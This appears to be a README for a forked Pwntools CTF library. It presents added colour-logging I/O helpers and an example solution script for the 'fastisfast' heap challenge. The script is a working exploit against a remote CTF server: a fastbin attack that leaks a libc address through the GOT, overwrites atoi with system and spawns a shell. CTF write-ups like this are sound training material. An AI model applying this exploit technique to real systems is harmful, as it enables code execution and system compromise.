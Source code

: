 # Pwntools - CTF toolkit

Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

# Forked and modified

Modified to optimize I/O display. Helps a lot on `reviewing the I/O sequence`.

Modified in `pwnlib\tubes\tube.py`.



`Recieved (useful/Junk) data` will be shown. `Sent data` would also be displayed. Debug info by the exploit writer would dispaly in different `colors`. 

Correctly use of this helps a lot to clear the mind. 

# Available new API

7 APIs available to interact with pwn challenges. These seven APIs seems to be enough for most situations of send data and leak data in CTF.

Fairly easy and simple. So this part will be Introduced as  source code:

```
    def ManualAttach(self):
        print '\33[1;31;40m\b[+] Debug: Attach GDB.',
	sys.stdin.read(1)

    def Log(self, String):
        print '\33[1;31;40m\b[+] '+ String,

    def LogRecvUntil(self, String):
	Data = self.recvuntil(String)
	print '\33[0m\b' + Data,
	return Data

    def LogRecvNoBlocking(self):
        print '\33[0m\b'+ self.recv(),

    def LogRecv(self, Len):
        Data = self.recv(Len)
        print '\33[0m\b' + Data,
        return Data

    def LogSend(self,Data):
        print '\33[1;36;40m\b' + Data,
        self.send(Data)

    def LogSendAndRecv(self,Data):
        print '\33[1;36;40m\b' + Data,
        self.send(Data)
        print '\33[0m\b' + self.recv(),

    def LogHex(self,Data):
        i = 0
        display = ''
        for byte in Data:
            display = display + str(hex(packing.unpack(byte, 8)))+ ' '
            if((i + 1) % 4 == 0):
                display = display + '| '
            if((i + 1) % 16 == 0):
                self.Log(display)
                display = ''
            i = i + 1
        if((i % 16) != 0):
            self.Log(display)
```



# Example

Writeup for `fastisfast`. As a fastbin attack challenge.

```
from pwn import *

io = remote('202.112.51.217',34123)
#io = process('./fastIsfast')

io.LogRecvNoBlocking()

for i in range(0,46):
	io.LogSendAndRecv('1\n')

io.LogSendAndRecv('3\n')

io.LogSendAndRecv('2\n')
G_V = 0x602098
io.LogSendAndRecv(p64(G_V)+'\n')
io.LogSendAndRecv('1\n')
io.LogSendAndRecv(p64(0x30)+'\n')

#malloc 0x602098 as w/r
io.LogSendAndRecv('1\n')
io.LogSendAndRecv('1\n')
#read
io.LogSendAndRecv('4\n')
#index by 0x602098


def ReadPrimitive(Address):
	io.LogSendAndRecv('2\n')
	io.LogSendAndRecv(p64(Address)+'\n')
	io.LogSendAndRecv('65\n')
	io.LogSendAndRecv('AAAABBBB\n')	

	io.LogSend('4\n')
	io.LogRecvUntil('Name : ')
	data = io.LogRecv(6)

	value = u64(data+'\x00\x00')
	
	io.LogRecvNoBlocking()
	return value

ATOI_GOT = 0x602050
ATOI_LIBC = ReadPrimitive(ATOI_GOT)
io.Log('Leaked address of atoi@libc: '+hex(ATOI_LIBC)+'.')

#libc-2.19
#SYSTEM_LIBC = ATOI_LIBC -0x39EA0 + 0x46590
#Log('Leaked address of system@libc: '+hex(SYSTEM_LIBC)+'.')

#libc-2.23
SYSTEM_LIBC = ATOI_LIBC - 0x36E80 + 0x45390
	
io.LogSendAndRecv('2\n')
io.ManualAttach()
io.LogSendAndRecv(p64(SYSTEM_LIBC) +'\n')
io.LogSendAndRecv('65\n')
io.LogSendAndRecv('AAAABBBB\n')
io.LogSend('/bin/sh')


io.interactive()
```

![example](./example.png)

